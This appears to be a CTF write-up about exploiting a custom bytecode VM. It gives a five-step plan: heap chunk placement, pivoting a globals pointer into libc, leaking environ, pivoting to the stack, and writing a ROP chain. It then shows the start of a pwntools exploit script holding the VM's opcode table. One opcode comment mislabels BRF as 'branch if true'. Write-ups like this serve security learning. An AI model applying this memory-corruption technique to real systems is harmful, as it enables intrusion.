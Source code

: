 ![image](./havoc.png)

## From Heap to LIBC to Stack and ~profit~ pain

1. Allocate chunk larger than heap (allocated adj. to LIBC)
2. Overwrite globals pointer with LIBC (pivot to LIBC)
3. Leak environ in LIBC (get stack address)
4. Overwrite globals pointer with stack address (pivot to stack)
5. Write ROP chain on stack to win and profit

```python
from pwn import *
import struct

context.terminal = ["tmux", "splitw", "-h"]

opcodes = {
    "NOOP"      : 0,
    "IADD"      : 1,   # int add
    "ISUB"      : 2,
    "IMUL"      : 3,
    "ILT"       : 4,   # int less than
    "IEQ"       : 5,   # int equal
    "BR"        : 6,   # branch
    "BRT"       : 7,   # branch if true
    "BRF"       : 8,   # branch if true
    "ICONST"    : 9,   # push constant integer
    "LOAD"      : 10,  # load from local context
    "GLOAD"     : 11,  # load from global memory
    "STORE"     : 12,  # store in local context
    "GSTORE"    : 13,  # store in global memory
    "PRINT"     : 14,  # print stack top
    "POP"       : 15,  # throw away top of stack
    "CALL"      : 16,  # call function at address with nargs,nlocals
```